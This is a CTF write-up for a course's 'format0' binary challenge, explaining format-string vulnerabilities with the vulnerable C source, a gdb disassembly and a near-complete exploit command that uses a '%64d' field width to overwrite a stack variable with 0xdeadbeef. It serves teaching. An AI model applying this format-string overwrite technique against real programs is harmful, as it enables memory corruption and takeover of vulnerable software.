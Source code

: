 ```yaml
---
title:  "Writeup: format0"
date:   2019-04-14 8:18:00
categories: writeup
layout: post
author: Amanda Ezeobiejesi
---
```



Format0 is the first of the format binary exploitation challenges for us to solve. 

Before continuing, it is highly recommended that you refer to the lecture notes on the [basics of format string vulnerabilities](http://cs4401.walls.ninja/lecture/notes/basics_formatstrings.html) written by Juan Luis Herrero Estrada. These lecture notes will give you an insight on a programming error that an attacker can leverage to exploit binaries. It will also show you how they can be used to both leak information from memory, and modify arbitrary memory locations with arbitrary values.


**Understanding The Hints**

**HINT 1**: Its good to know where argv input is placed.

For the stack binaries, we were used to having our solution and then piping the executable compiled program to solve the binary, for example, `$ python -c "print 'a'*65" | ./stack0`. However, to solve these format binaries, we need to place argv inputs after the executable compiled program. This means that the solution will be of the form `$ ./format0 python -c "print...."` . 

**HINT 2**: It's good to know how variables are placed on the stack.

Within a function, local variables are stored on a stack frame. Within the stack frame, the order of access of the variables can be random.

Consider the following code:
```
int main (void){
     int a = 1, b = 2, c = 3;

     c = c + 55;
     a = a + 10;

     return 0;
}
```

A compiler could generate the following code: 
```
...
mov     DWORD PTR [rbp-4], 1
mov     DWORD PTR [rbp-8], 2
mov     DWORD PTR [rbp-12], 3
add     DWORD PTR [rbp-12], 55
add     DWORD PTR [rbp-4], 10
...
```

The variables `a` , `b` and `c` are stored at location `rbp-4`, `rbp-8` and `rbp-12`. Therefore each variable would get 4 bytes. It is minus because the stack grows downward and the starting of the stack frame of this function is indicated by the contents of `rbp`. This example, can be seen more in depth [here](https://stackoverflow.com/questions/50524734/how-the-local-variable-stored-in-stack).

**How to Solve Format0**

Going back to format0, the binary that we are trying to solve, we are given the following source code:

```

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string){
    volatile int target;
    char buffer[64];
    char flagBuffer[64];
    FILE *fp;

    target = 0;

    sprintf(buffer, string);
    
    if(target == 0xdeadbeef) {
        printf("you have hit the target correctly :)\n");
        fp = fopen("./flag.txt", "r");
        fgets(flagBuffer, 64, (FILE*)fp);
        printf("flag: %s\n", flagBuffer);
    }
}

int main(int argc, char **argv){                                                                                                                                           
    vuln(argv[1]);
}

```

The goal of this binary is to change the target's value to `0xdeadbeef`.

As we have been dealing with a few stack binary explotation challenges, looking at this binary, an obvious way to exploit it would be to use a standard stack buffer overflow. However, we have to do this by exploiting format strings.

Our goal message, "you have hit the target correctly :)", is in the `vuln()` function, so the first thing we want to do is disassemble the `vuln()` function. 

```

(gdb) set disassembly-flavor intel
(gdb) set pagination off
(gdb) disas vuln
Dump of assembler code for function vuln:                                                                                               
   0x080484eb <+0>:     push   ebp                                                                                                     
   0x080484ec <+1>:     mov    ebp,esp                                                                                                 
   0x080484ee <+3>:     sub    esp,0x98                                                                                                 
   0x080484f4 <+9>:     mov    DWORD PTR [ebp-0x10],0x0                                                                                 
   0x080484fb <+16>:    sub    esp,0x8                                                                                                 
   0x080484fe <+19>:    push   DWORD PTR [ebp+0x8]                                                                                     
   0x08048501 <+22>:    lea    eax,**[ebp-0x50]**                                                                                       
   0x08048504 <+25>:    push   eax                                                                                                     
   0x08048505 <+26>:    call   0x80483d0 <sprintf@plt>                                                                                 
   0x0804850a <+31>:    add    esp,0x10                                                                                                 
   0x0804850d <+34>:    mov    eax,DWORD PTR **[ebp-0x10]**                                                                             
   0x08048510 <+37>:    cmp    eax,0xdeadbeef                                                                                           
   0x08048515 <+42>:    jne    0x804856d <vuln+130>                                                                                     
   0x08048517 <+44>:    sub    esp,0xc                                                                                                 
   0x0804851a <+47>:    push   0x8048630                                                                                               
   0x0804851f <+52>:    call   0x80483a0 <puts@plt>                                                                                     
   0x08048524 <+57>:    add    esp,0x10                                                                                                 
   0x08048527 <+60>:    sub    esp,0x8                                                                                                 
   0x0804852a <+63>:    push   0x8048655                                                                                               
   0x0804852f <+68>:    push   0x8048657                                                                                               
   0x08048534 <+73>:    call   0x80483c0 <fopen@plt>                                                                                   
   0x08048539 <+78>:    add    esp,0x10                                                                                                 
   0x0804853c <+81>:    mov    DWORD PTR [ebp-0xc],eax                                                                                 
   0x0804853f <+84>:    sub    esp,0x4                                                                                                 
   0x08048542 <+87>:    push   DWORD PTR [ebp-0xc]                                                                                     
   0x08048545 <+90>:    push   0x40                                                                                                     
   0x08048547 <+92>:    lea    eax,[ebp-0x90]                                                                                           
   0x0804854d <+98>:    push   eax                                                                                                     
   0x0804854e <+99>:    call   0x8048390 <fgets@plt>                                                                                   
   0x08048553 <+104>:   add    esp,0x10                                                                                                 
   0x08048556 <+107>:   sub    esp,0x8                                                                                                 
   0x08048559 <+110>:   lea    eax,[ebp-0x90]                                                                                           
   0x0804855f <+116>:   push   eax                                                                                                     
   0x08048560 <+117>:   push   0x8048662                                                                                               
   0x08048565 <+122>:   call   0x8048380 <printf@plt>                                                                                   
   0x0804856a <+127>:   add    esp,0x10                                                                                                 
   0x0804856d <+130>:   nop                                                                                                             
   0x0804856e <+131>:   leave                                                                                                           
   0x0804856f <+132>:   ret                                                                                                                 
End of assembler dump.

```

Within this disassembly of `vuln()` , there are two important memory locations: `ebp-0x50` and `ebp-0x10`, which belong to the `buffer` and `target`, respectively.

The simplest way of exploiting a format string is to write a short format string preceded by a large string that is written into a buffer.

In our case, due to the buffer in the source code being 64, we want a format string that writes 64 characters followed by the value we want the `target` to be `0xdeadbeef`. This would write past `buffer` into `target`, resulting in the `target` being overwritten. 

Looking at the [man printf](https://linux.die.net/man/3/printf) and using the `minimum field width`, the final exploitation should look like :

`$ ./format0 $(python -c "print '%64d\x?\x?\x?\x?'")`

you have hit the target correctly :)

flag: helloworld

where the "?" represents `0xdeadbeef` in little endian.

